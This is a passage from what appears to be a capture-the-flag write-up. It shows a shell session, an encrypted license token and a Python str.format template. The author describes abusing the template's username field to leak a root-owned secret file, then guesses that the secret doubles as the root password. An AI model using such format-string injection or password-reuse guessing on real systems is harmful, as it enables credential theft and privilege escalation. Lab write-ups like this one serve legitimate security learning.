gAAAAABkY0y5mMxZd0G6W5jr9CgIBsP_dAWsZQ2Ioe5Zr-XlBzYvVXETrLbT3Fvrk0HZ5bgZDU4cJCrVOxaO05A71oThxIxf4lMgCDYzIIQcLkvFuSJDvAekji4QezbsDxFfEcUP1t2zvj3PF8VGEUe0VXXWbmJSI1vgGfNuzbypX-IQmv4S3oc=

cooper@format:~$
```

Now since we know from the string that lincense key structure is: 

```Bash
license_key = (prefix + username + "{license.license}" + firstlast).format(license=l)
```

We can see that after prefix=microblog the user is pointing to /root/license/secret instead of Redis -- Yovecio -- Username

And with confidence I guess that secret is same password as root user:



* * *